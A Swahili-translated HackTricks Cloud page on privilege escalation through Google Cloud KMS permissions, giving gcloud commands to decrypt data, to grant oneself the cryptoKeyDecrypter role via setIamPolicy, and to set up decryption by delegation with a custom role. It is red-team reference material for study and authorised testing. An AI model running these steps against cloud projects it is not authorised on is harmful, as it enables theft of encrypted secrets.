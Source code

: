# GCP - KMS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

Taarifa kuhusu KMS:

{% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

Kumbuka kwamba katika KMS **idhini** hazirithi tu kutoka kwa Mashirika, Folda na Miradi bali pia kutoka kwa **Keyrings**.

### `cloudkms.cryptoKeyVersions.useToDecrypt`

Unaweza kutumia idhini hii **kufungua taarifa kwa kutumia funguo** ambayo una idhini hii juu yake.
```bash
gcloud kms decrypt \
--location=[LOCATION] \
--keyring=[KEYRING_NAME] \
--key=[KEY_NAME] \
--version=[KEY_VERSION] \
--ciphertext-file=[ENCRYPTED_FILE_PATH] \
--plaintext-file=[DECRYPTED_FILE_PATH]
```
### `cloudkms.cryptoKeys.setIamPolicy`

Mshambuliaji mwenye ruhusa hii anaweza **kujipe ruhusa** za kutumia funguo kufungua taarifa.
```bash
gcloud kms keys add-iam-policy-binding [KEY_NAME] \
--location [LOCATION] \
--keyring [KEYRING_NAME] \
--member [MEMBER] \
--role roles/cloudkms.cryptoKeyDecrypter
```
### `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`

Hapa kuna ufafanuzi wa kimsingi wa jinsi hii delegation inavyofanya kazi:

1. **Service Account A** ina ufikiaji wa moja kwa moja wa kufungua kwa kutumia funguo maalum katika KMS.
2. **Service Account B** inapata ruhusa ya `useToDecryptViaDelegation`. Hii inaruhusu kuomba KMS kufungua data kwa niaba ya Service Account A.

Matumizi ya **ruhusa hii ni ya kimya kimya katika njia ambayo huduma ya KMS inakagua ruhusa** wakati ombi la kufungua linapofanywa.

Unapofanya ombi la kawaida la kufungua kwa kutumia Google Cloud KMS API (katika Python au lugha nyingine), huduma **inakagua ikiwa akaunti ya huduma inayohitaji ina ruhusa zinazohitajika**. Ikiwa ombi linatolewa na akaunti ya huduma yenye **ruhusa ya `useToDecryptViaDelegation`**, KMS inathibitisha ikiwa **akaunti hii inaruhusiwa kuomba kufungua kwa niaba ya chombo kinachomiliki funguo**.

#### Kuweka Mambo kwa ajili ya Delegation

1. **Define the Custom Role**: Unda faili ya YAML (mfano, `custom_role.yaml`) inayofafanua jukumu maalum. Faili hii inapaswa kujumuisha ruhusa ya `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`. Hapa kuna mfano wa jinsi faili hii inaweza kuonekana:
```yaml
title: "KMS Decryption via Delegation"
description: "Allows decryption via delegation"
stage: "GA"
includedPermissions:
- "cloudkms.cryptoKeyVersions.useToDecryptViaDelegation"
```
2. **Unda Jukumu Maalum kwa Kutumia gcloud CLI**: Tumia amri ifuatayo kuunda jukumu maalum katika mradi wako wa Google Cloud:

{% code overflow="wrap" %}
```bash
gcloud iam roles create kms_decryptor_via_delegation --project [YOUR_PROJECT_ID] --file custom_role.yaml
```
{% endcode %}

Badilisha `[YOUR_PROJECT_ID]` na kitambulisho chako cha mradi wa Google Cloud.

3. **Patia Jukumu Maalum Akaunti ya Huduma**: Teua jukumu lako maalum kwa akaunti ya huduma ambayo itakuwa ikitumia ruhusa hii. Tumia amri ifuatayo:
```bash
# Give this permission to the service account to impersonate
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member "serviceAccount:[SERVICE_ACCOUNT_B_EMAIL]" \
--role "projects/[PROJECT_ID]/roles/[CUSTOM_ROLE_ID]"

# Give this permission over the project to be able to impersonate any SA
gcloud projects add-iam-policy-binding [YOUR_PROJECT_ID] \
--member="serviceAccount:[SERVICE_ACCOUNT_EMAIL]" \
--role="projects/[YOUR_PROJECT_ID]/roles/kms_decryptor_via_delegation"
```
Replace `[YOUR_PROJECT_ID]` and `[SERVICE_ACCOUNT_EMAIL]` with your project ID and the email of the service account, respectively.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
